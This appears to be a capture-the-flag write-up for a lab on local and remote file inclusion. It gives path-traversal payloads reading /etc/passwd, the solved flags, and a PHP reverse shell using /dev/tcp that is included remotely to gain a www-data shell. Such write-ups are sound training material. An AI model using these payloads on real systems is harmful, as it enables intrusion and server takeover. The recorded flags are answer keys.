

# Challenge

### Steps for testing for LFI

1.  Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!  
    
2.  Enter a valid input to see how the web server behaves.
3.  Enter invalid inputs, including special characters and common file names.
4.  Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5.  Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6.  Understand the input validation and if there are any filters!
7.  Try the inject a valid entry to read sensitive files

## 1
Change Form Method to `POST`



- F1x3d-iNpu7-f0rrn

## 2

1. Change Cookie to admin
2. Change cookie to LFI String
3. Do path traversal
4. Add nullbytes to escape later code

```bash
../../../../etc/passwd%00
```


- c00k13_i5_yuMmy1

## 3

1.  Go to page source and edit form method to POST
2.  Submit `/etc/passwd`
3.  Go to Proxy -> HTTP History
4.  Find the post request last made and send to Repeater
5.  change POST payload to `file=../../../../etc/flag3%00`
6.  Done

- P0st_1s_w0rk1in9

## RFI to RCE

Get shell

```bash
screen python3 -m http.server 81
```

```bash
echo "<?php exec(\"/bin/bash -c '/bin/bash -i >& /dev/tcp/x.x.x.x/1111 0>&1'\")" > ok.php
```

```bash
curl http://10.10.214.169/playground.php?file=http://10.10.3.197:81/ok.php
```

```bash
root@ip-10-10-3-197:~# rlwrap nc -lvnp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 10.10.214.169 45496 received!
bash: no job control in this shell
www-data@lfi-vm-thm-f8c5b1a78692:/var/www/html$

www-data@lfi-vm-thm-f8c5b1a78692:/tmp$ hostname
hostname
lfi-vm-thm-f8c5b1a78692
```